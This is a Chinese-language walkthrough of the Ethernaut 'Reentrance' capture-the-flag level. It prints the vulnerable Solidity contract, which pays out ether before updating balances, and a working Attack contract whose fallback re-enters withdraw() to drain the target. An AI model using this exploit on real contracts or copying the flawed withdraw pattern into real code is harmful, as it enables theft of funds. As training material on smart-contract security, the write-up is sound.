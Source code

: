 # 重入攻击

> 目标是偷走这个合约里面的所有钱

[link](https://ethernaut.openzeppelin.com/level/0x573eAaf1C1c2521e671534FAA525fAAf0894eCEb)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';
// 👇这个可以直接引用
// import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/release-v3.0.0/contracts/math/SafeMath.sol";

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

这是一个经典的重入攻击例子。

如果不知道什么是重入攻击可以看一下wtf solidity的[例子](https://github.com/AmazingAng/WTF-Solidity/blob/main/S16_NFTReentrancy/readme.md)

我们通过`msg.sender.call`来调用攻击合约的fallback方法，在从fallback中调用withdraw从而实现递归。


```solidity
contract Attack {

    Reentrance addr;

    constructor(address addr_) public {
        addr = Reentrance(payable(addr_));
    }

    function attack() external payable  {
        addr.donate{value: msg.value}(address(this));

        addr.withdraw(msg.value - 1);
    }

    fallback() external payable {        
        if (address(addr).balance > 0) {
            if (addr.balances(address(this)) > address(addr).balance) {
                addr.withdraw(address(addr).balance);
            } else {
                addr.withdraw(addr.balances(address(this)));
            }
        }
    }

}
```



